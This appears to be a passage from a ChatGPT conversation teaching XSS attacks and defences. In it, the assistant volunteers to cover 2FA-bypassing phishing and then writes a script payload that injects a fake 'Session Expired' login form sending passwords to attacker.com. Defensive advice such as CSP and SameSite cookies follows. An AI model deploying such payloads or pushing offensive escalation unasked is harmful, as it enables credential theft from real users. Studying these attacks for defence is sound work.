 💣 What This Does:

    Triggers autofill for saved credentials.
    Automatically submits the form after 3 seconds.

✅ How to Defend Against This?

    Disable autofill on sensitive forms

<input type="password" autocomplete="off">

Use SameSite cookies to prevent unauthorized form submissions

    Set-Cookie: session=abcd1234; HttpOnly; Secure; SameSite=Strict

🚀 Final Thoughts: What’s Next?

These attacks show how XSS can persist even after logout, exploit real-time data, and even steal credentials via autofill.

🔹 Would you like to explore phishing-based XSS attacks that bypass 2FA (Two-Factor Authentication)? 🚀
You said:
yes please
ChatGPT said:
🔥 Phishing-Based XSS Attacks: Bypassing 2FA and Stealing Credentials 🚀

Even with 2-Factor Authentication (2FA), attackers can use XSS combined with phishing techniques to steal login credentials and session tokens, giving them full access to a victim’s account.
⚡ 1️⃣ XSS + Fake Login Form (Credential Harvesting)

Attackers use XSS to inject a fake login prompt, tricking users into entering their credentials.
🔴 XSS Attack: Injecting a Fake Login Form

Inject this payload via XSS:

<script>
    let fakeForm = document.createElement("form");
    fakeForm.action = "https://attacker.com/steal";
    fakeForm.method = "POST";
    fakeForm.innerHTML = `
        <h2>Session Expired</h2>
        <p>Please re-enter your password</p>
        <input type="password" name="password">
        <button type="submit">Login</button>
    `;
    document.body.prepend(fakeForm);
</script>

💣 What This Does:

    Tricks users into entering their password, thinking they are re-authenticating.
    Sends the password to the attacker at https://attacker.com/steal.

✅ How to Defend Against This?

    Use Content Security Policy (CSP) to block inline scripts

Content-Security-Policy: script-src 'self'
